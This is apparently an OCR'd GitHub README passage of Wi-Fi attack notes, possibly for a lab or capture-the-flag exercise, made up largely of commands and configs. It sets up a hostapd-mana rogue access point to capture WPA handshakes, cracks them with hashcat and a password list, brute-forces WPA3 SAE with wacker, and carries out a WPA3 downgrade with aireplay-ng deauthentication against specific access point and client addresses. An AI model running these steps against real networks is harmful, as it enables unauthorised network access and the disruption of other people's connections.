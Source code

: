    ```
    ```
    interface=wlan1
    driver=nl80211
    hw_mode=g
    channel=1
    ssid=wifi-offices
    mana_wpaout=hostapd.hccapx
    wpa=2
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP CCMP
    wpa_passphrase=12345678
    ```
2. ```hostapd-mana hostapd.conf```
3. CTRL+C when AP-STA-POSSIBLE-PSK-MISMATCH.
4. extract ``` $WPA* xxxx ``` to ```password.txt```
5. Crack the wifi password ``` sudo hashcat -a 0 -m 22000 password.txt /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```

## WPA 3 SAE

### Brute force
- https://github.com/blunderbuss-wctf/wacker
1. ```cd /home/kali/Downloads/wifi-tools/wacker```
3. ``` ./wacker.py --wordlist /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462 ``` [ [frequency go search wifi channel x freq , ch10 = 2457](https://en.wikipedia.org/wiki/List_of_WLAN_channels)
4. prep wpa3sae.conf
   ```
    network={
        ssid="wifi-management"
        psk=""
        key_mgmt=SAE
        scan_ssid=1
        ieee80211w=2
    }

   ```
5. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c  wpa3sae.conf```
6. ``` sudo dhclient wlan3 -v  ```

### Downgrade attack
- can reuse method of fake beacon attack in wpa2 psk (not visible)
1. check csv file "-01.csv" from airodump if "privacy" = “SAE PSK"
2. check wireshark wlan0mon where ssid = xxx then see if this 2 value == false
   ![alt text](image.png)
3. prepare hostapd-sae.conf
   ```
    interface=wlan1
    driver=nl80211
    hw_mode=g
    channel=11
    ssid=wifi-IT
    mana_wpaout=hostapd-management.hccapx
    wpa=2
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP CCMP
    wpa_passphrase=12345678
   ```
4. ``` hostapd-mana hostapd-sae.conf ``` and wait handshake
5. turn off wlan0mon airodump first 
6. set same channel to the ap ```iwconfig wlan0mon channel 11```
7. trigger deauth ``` aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25  -c 10:F9:6F:AC:53:52 ```
8. extract ``` $WPA* xxxx ``` to ```password.txt```
   ```
